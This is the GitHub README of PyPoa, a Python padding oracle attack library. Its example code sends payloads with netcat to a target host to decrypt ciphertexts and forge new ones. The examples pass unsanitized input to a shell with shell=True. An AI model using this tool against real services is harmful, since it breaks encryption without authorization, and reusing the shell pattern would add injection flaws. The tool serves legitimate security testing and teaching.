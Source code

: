 
# PyPoa (Padding Oracle Attack)

A python implementation of the Padding Oracle Attack.

## Features

* Decrypts and encrypts messages
* Allows you to implement your own oracle padding validation

## Installing / Getting started

```shell
git clone https://github.com/Dukezo/pypoa.git
pip install .
```

Clone the repository, install the package and you are ready to go.

## Example usage

Decrypting ciphertexts:
```python
class MyOracle(pypoa.Oracle):
    def validate(self, payload):
        proc = subprocess.Popen("echo %s | nc example.com 12345" % payload, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        output = str(proc.communicate()[0])
        return "invalid padding" not in output

ciphertext = "2495de02c6af8378db81b410c54cc3f75da4c0d4122d1c597496dd5b00038a32a333bcbabe327bd8292ca295fc8003463fe4c235a502d994d85a1332890ee080b8fd160937f260aa5449b2e05e8464cf" 
IV = binascii.hexlify(b"This is an IV456").decode("ascii")  
plaintext = pypoa.decrypt(ciphertext, 16, MyOracle(), IV)
```

Encrypting plaintexts:
```python
class MyOracle(pypoa.Oracle):
    def validate(self, payload):
        proc = subprocess.Popen("echo %s | nc example.com 12345" % payload, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        output = str(proc.communicate()[0])
        return "invalid padding" not in output

plaintext = 'Top secret message'
ciphertext = pypoa.encrypt(plaintext, 16, MyOracle())
```

## Licensing

See the LICENSE file for license rights and limitations (MIT).